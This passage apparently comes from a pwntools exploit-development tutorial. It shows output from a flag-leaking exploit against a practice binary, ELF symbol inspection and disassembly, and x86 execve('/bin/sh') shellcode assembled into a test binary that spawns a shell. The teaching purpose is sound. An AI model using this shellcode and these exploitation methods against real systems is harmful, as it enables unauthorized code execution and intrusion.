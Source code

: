 ```text
[*] Sending request for offset: -1
[*] Got back raw response: Okay, here you go: 0xffb14951 G
[*] Parsed char: G
[*] The flag is: SECRETFLAG
[*] Stopped program './leaky'
```

## Assembly and ELF manipulation

Pwntools can also be used for precision work, like working with ELF files and their symbols.

```python
#!/usr/bin/env python
from pwn import *

leaky_elf = ELF('leaky')
main_addr = leaky_elf.symbols['main']

# Print address of main
log.info("Main at: " + hex(main_addr))

# Disassemble the first 14 bytes of main
log.info(disasm(leaky_elf.read(main_addr, 14), arch='x86'))
```

We can also write ELF files from raw assembly;
this is very useful for testing shellcodes.

```python
#!/usr/bin/env python
from pwn import *

sh_shellcode = """
        mov eax, 11
        push 0
        push 0x68732f6e
        push 0x69622f2f
        mov ebx, esp
        mov ecx, 0
        mov edx, 0
        int 0x80
"""

e = ELF.from_assembly(sh_shellcode, vma=0x400000)

with open('test_shell', 'wb') as f:
    f.write(e.get_data())
```

This will result in a binary named `test_shell` which executes the necessary assembly code to spawn a shell:

```console
chmod u+x test_shell
./test_shell
```
